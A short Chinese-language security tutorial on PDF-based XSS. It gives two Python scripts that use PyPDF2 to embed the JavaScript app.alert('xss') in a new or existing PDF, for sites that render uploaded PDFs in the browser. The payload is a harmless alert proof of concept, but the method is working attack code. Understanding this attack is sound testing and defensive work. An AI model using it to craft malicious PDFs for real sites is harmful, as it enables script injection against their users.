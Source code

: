 # PDF文件JS弹窗

它的攻击场景其实不算常见，如果有某些站点允许上传PDF、能在线解析PDF并且用户能够在线浏览该PDF文件，就有可能存在PDF XSS攻击。

## 利用python生成恶意文件

### 新建

    from PyPDF2 import PdfReader, PdfWriter
    # 创建一个新的 PDF 文档
    output_pdf = PdfWriter()
    # 添加一个新页面
    page = output_pdf.add_blank_page(width=72, height=72)
    # 添加js代码
    output_pdf.add_js("app.alert('xss');")
    # 将新页面写入到新 PDF 文档中
    with open("xss.pdf", "wb") as f:
        output_pdf.write(f)
        
### 附加到已存在的PDF文件

    from PyPDF2 import PdfReader, PdfWriter
    # 打开原始 PDF 文件
    input_pdf = PdfReader("x.pdf")
    # 创建一个新的 PDF 文档
    output_pdf = PdfWriter()
    # 将现有的 PDF 页面复制到新文档
    for i in range(len(input_pdf.pages)):
        output_pdf.add_page(input_pdf.pages[i])
    # 添加 JavaScript 代码
    output_pdf.add_js("app.alert('xss');")
    # 将新 PDF 文档写入到文件中
    with open("xss.pdf", "wb") as f:
        output_pdf.write(f)
        
